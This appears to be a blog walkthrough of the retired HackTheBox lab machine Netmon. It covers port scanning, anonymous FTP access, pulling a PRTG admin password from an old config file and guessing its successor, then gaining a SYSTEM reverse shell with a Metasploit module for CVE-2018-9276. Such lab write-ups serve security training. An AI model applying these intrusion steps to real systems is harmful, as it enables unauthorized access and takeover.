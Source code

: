 ```yaml
---
title: "HTB Walkthrough: Netmon"
date: 2022-04-18T15:34:30-04:00
categories:
  - HackTheBox
header:
  teaser: /assets/images/HTB/netmon/netmon.jpg
tags:
  - Easy
  - FTP
  - Weak Authentication
  - RCE
  - Public Vulnerabilities
  - Windows
---
```


![Netmon Logo](/assets/images/HTB/netmon/netmon.jpg)

**Welcome** to this walkthrough for [HackTheBox's](https://www.hackthebox.com/) (HTB) machine Netmon. This one is listed as an 'easy' box and has also been retired, so access is only provided to those that have purchased VIP access to HTB.
Because of this, you may notice that it is necessary to be connected to HTB's VIP VPN server, rather than the free server. To do this, change the dropdown selection in the top right corner where you select "Connect"
to "VIP" and download the .ovpn package (yes, even as a paid user, you must toggle between free and paid VPN packages depending on the machine).

---

## Service Enumeration
So after we connect to the VPN via "sudo openvpn xxxxxxx.ovpn", we can turn on the Netmon machine and grab it's IP address. Now its time to run some simple network scans.

```bash
sudo nmap -sS -A -sV -T4 -v -p- 10.10.10.152 | tee nmap.log
dirb http://10.10.10.152/ /usr/share/dirb/wordlists/small.txt -f | tee dirb.log
nikto -h "http://10.10.10.152/" | tee nikto.log
```
## Port 21: FTP
As I am waiting for the scan to finish, I notice that port 21 is open and attempt to login with anonymous FTP(anonymous: ):
```bash
└─$ ftp anonymous@10.10.10.152 
Connected to 10.10.10.152.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp>
```
Success! We have remote access to the filesystem. Let's go *root* around.
> Note: Using <em>feat</em> and <em>help</em> will show you available FTP commands that you can execute.  
> Also: (Using ! before a command will execute the command on your local machine, i.e. Kali)

I always check first to see if I can <em>put</em> or <em>get</em> files, ie. transfer them between local/remote filesystems. It appears I am only able to download files from the remote machine becuase the *get* request returns an error.

## User Flag
A quick look at the /Users/Public/ folder reveals the quickest user flag I have ever found:
 
![user.txt](/assets/images/HTB/netmon/netmon-user.jpg)

Alright, so after a few attempts to gain more information about the system, we see that there is a service named PRTG that seems very prevalent across important folders.
This may indicate that we want to take a look at some of this program's data files.  

Navigating to "/ProgramData/Paessler/PRTG Network Monitor/" we find multiple PRTG Config files... Bingo.
It is worth our while to <em>get</em> these config files, transferring them to our own system, so that we may run some data-grepping commands.  
With little effort, we come across <b>prtgadmin credentials</b> in <em>PRTG Configuration.old</em>
> **prtgadmin:PrTg@dmin2018**

![prtgadmin credentials in an old .config file](/assets/images/HTB/netmon/prtgadmin-creds.jpg)

Let's check out our network scans:

![nmap scan](/assets/images/HTB/netmon/nmap.jpg)

## Port 80: HTTP PRTG Network Monitor (NETMON)
Navigating to the IP address in our browser redirects us to the NETMON login page:

![NETMON login page](/assets/images/HTB/netmon/prtg.jpg)

A quick Google shows us that the default credentials for PRTG are:
> **prtgadmin:prtgadmin**

However, this results in an invalid login. 
When we attempt <b>prtgadmin:PrTg@dmin2018</b> that we found earlier, we also get an invalid credentials error.
However, using a year at the end of a password is extremely common, and so is reusing passwords. Assuming a system doesn't allow a user to reuse a password, and that the user is lazy (oof), and also the file we found these credentials had the extension ".old", let's try:
> **prtgadmin:PrTg@dmin2019**

Success!

## Exploit & Root the Service
Now, there are still network scans to go through, as well as plenty of traffic (via Burpsuite, inspect source, etc.) to capture and fuzzing (for SQL injection, XSS, etc.).
But I will cut to the chase where I did a quick look for public exploits on this service:

![Searchsploit Results](/assets/images/HTB/netmon/searchsploit.jpg)

This netted us four results, and comparing the version numbers with what I gained earlier via basic web enumeration, this system may be vulnerable to Authenticated Remote Code Execution via:
> **Exploit Database:** [CVE-2018-9276](https://www.exploit-db.com/exploits/46527)

This exploit can be modified and run as a bash script to suit your needs, but what it essentially does is take advantage of the PRTG notification system to execute user-provided RCE.
These commands can also be executed in the web browser manually.
For utmost simplicity, use the exploit found in Metasploit by using the command <em>msfconsole</em> and setting it up in this way, using 'set' *parameter_name* *variable*:

```bash
Example:
set rhosts 10.10.10.152
set lhost tun0
set admin_password PrTg@dmin2019
etc, etc
```

![Metasploit RCE Configuration](/assets/images/HTB/netmon/msf.jpg)

Hooray! We got a shell. Now let's grab that root flag and be done with it:

![SYSTEM reverse TCP shell](/assets/images/HTB/netmon/shell.jpg)

![Root Flag](/assets/images/HTB/netmon/root-flag.jpg)

